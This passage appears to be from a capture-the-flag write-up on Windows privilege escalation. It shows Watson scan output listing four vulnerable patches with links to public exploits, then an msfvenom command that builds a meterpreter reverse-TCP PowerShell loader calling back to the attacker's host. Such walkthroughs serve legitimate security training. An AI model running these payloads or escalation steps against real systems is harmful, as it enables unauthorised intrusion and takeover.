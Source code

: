 ```
  [*] Appears vulnerable to MS10-092
   [>] Description: When processing task files, the Windows Task Scheduler only uses a CRC32 checksum to validate that the file has not been tampered with.Also, In a default configuration, normal users can read and write the task files that they have created.By modifying the task file and creating a CRC32 collision, an attacker can execute arbitrary commands with SYSTEM privileges.
   [>] Exploit: https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/local/ms10_092_schelevator.rb
   [>] Notes: None.

  [*] Appears vulnerable to MS11-046
   [>] Description: The Ancillary Function Driver (AFD) in afd.sys does not properly validate user-mode input, which allows local users to elevate privileges.
   [>] Exploit: https://www.exploit-db.com/exploits/40564/
   [>] Notes: None.

  [*] Appears vulnerable to MS12-042
   [>] Description: An EoP exists due to the way the Windows User Mode Scheduler handles system requests, which can be exploited to execute arbitrary code in kernel mode.
   [>] Exploit: https://www.exploit-db.com/exploits/20861/
   [>] Notes: None.

  [*] Appears vulnerable to MS13-005
   [>] Description: Due to a problem with isolating window broadcast messages in the Windows kernel, an attacker can broadcast commands from a lower Integrity Level process to a higher Integrity Level process, thereby effecting a privilege escalation.
   [>] Exploit: https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/local/ms13_005_hwnd_broadcast.rb
   [>] Notes: None.

 [*] Finished. Found 5 vulns :)
ERROR> The given key was not present in the dictionary.
ERROR> C:\WINDOWS\System32\drivers\mrxdav.sys
ERROR> C:\WINDOWS\System32\win32kfull.sys
ERROR> C:\WINDOWS\System32\gdiplus.dll
ERROR> C:\WINDOWS\System32\pcadm.dll
ERROR> C:\WINDOWS\System32\coremessaging.dll

```

The errors are not failure, it’s just that those files aren’t on this version of Windows. Watson provides a comprehensive list of vulnerabilities. Given my desire to avoid Metasploit, I suspect I’ll be using for this tool going forward.

#### Metasploit

Metasploit has a very nice, built in, exploit suggester. I’ll need a meterpreter shell. First, generate some PowerShell as a loader:

```

root@kali# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=445 -f psh -o www/met-445.ps1
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 510 bytes
Final size of psh file: 3216 bytes
Saved as: www/met-445.ps1

```
